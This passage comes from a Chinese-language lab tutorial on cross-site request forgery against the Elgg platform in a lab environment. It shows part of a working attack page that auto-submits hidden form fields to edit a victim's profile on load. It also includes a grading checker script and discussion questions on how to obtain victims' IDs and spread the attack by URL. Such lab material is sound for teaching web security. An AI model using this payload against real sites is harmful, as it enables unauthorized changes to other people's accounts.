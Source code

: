 ```
    	// The following are form entries that need to be filled out
    	// by attackers. The entries are made hidden, so the victim
    	// won't be able to see them.
    	fields += "<input type='hidden' name='name' value='Boby'>";
    	fields += "<input type='hidden' name='description' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    	fields += "<input type='hidden' name='briefdescription' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    	fields += "<input type='hidden' name='location' value='test'>";
    	fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
    	fields += "<input type='hidden' name='guid' value='40'>";
    	var url = "http://www.csrflabelgg.com/action/profile/edit";
    	post(url,fields);
    }
    // invoke csrf_hack() after the page is loaded.
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>
```

Boby用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186567992?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问攻击url：www.csrflabattacker.com/csrf.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430792231780?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186621990?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```checker
- name: check csrf.html
  script: |
    #!/bin/bash
    file_name="/var/www/CSRF/Attacker/csrf.html"
    ls $file_name
    grep csrf_hack $file_name
  error: csrf.html不存在或者文件内容不对
```

#### 思考 

问题1：Alice用户使用csrf攻击boby用户，需要知道Boby用户的guid，但是Alice没有Boby的密码，她可以通过什么办法来获取Boby用户的guid？

>    Alice可以先通过一个类似实验1这样的CSRF攻击来获取Boby用户的guid。

问题2：如果Alice想通过发送一个URL，不论是谁点击，谁就会受到CSRF攻击，受害者就会自动修改自己的资料，请解释一下要如何成功做到这样？

 >   首先，要是CSRF攻击成功的前提是必须拥有用户的guid，我们可以通过使用csrf来先获取用户的guid，然后自动提交到guid的位置，这样不论是谁，只要他没有退出elgg系统，就访问了我们的攻击url就会自动编辑他们的资料；

### lab3 Elgg系统的CSRF防御 
